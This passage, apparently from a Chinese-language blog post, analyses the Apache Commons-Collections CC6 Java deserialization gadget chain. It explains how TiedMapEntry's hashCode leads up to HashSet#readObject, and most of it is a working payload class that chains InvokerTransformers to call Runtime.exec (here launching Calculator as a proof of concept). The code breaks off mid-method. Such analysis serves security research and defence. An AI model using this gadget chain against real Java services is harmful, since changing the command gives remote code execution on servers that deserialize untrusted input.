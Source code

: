 ```java
}
```

回顾 TiedMapEntry 里面的方法，CC5 用的是 `TiedMapEntry#toString`，里面调用了`getValue`， 那么其实在 TiedMapEntry 还有 `hashCode` 跟 `equals` 同样调用了 `getValue`

![](Commons-Collections-反序列化利用链分析/image-20210211164601311.png)

## Gadget chain

CC6 其实就用到了 `hashCode`  方法，在向上寻找可控参数的以及调用到合适方法的时候，最终定位到 `HashSet#readObject`

**CC6 payload**

```java
public class CC6 {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, IllegalAccessException
            , InstantiationException, IOException, NoSuchFieldException {
        Transformer[] realPoc  = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calculator.app/Contents/MacOS/Calculator")})};
        ChainedTransformer fakeChain = new ChainedTransformer(new Transformer[]{ new ConstantTransformer("random")});

        Map innerMap = new HashMap();
        LazyMap mapDemo = (LazyMap) LazyMap.decorate(innerMap, fakeChain);
        TiedMapEntry rceDemo = new TiedMapEntry(mapDemo, "random");
        HashSet map = new HashSet(1);
        map.add("foo");
        Field f = null;
        try {
            f = HashSet.class.getDeclaredField("map");
        } catch (NoSuchFieldException e) {
            f = HashSet.class.getDeclaredField("backingMap");
        }

        f.setAccessible(true);
        HashMap innimpl = (HashMap) f.get(map);
        Field f2 = null;
        try {
```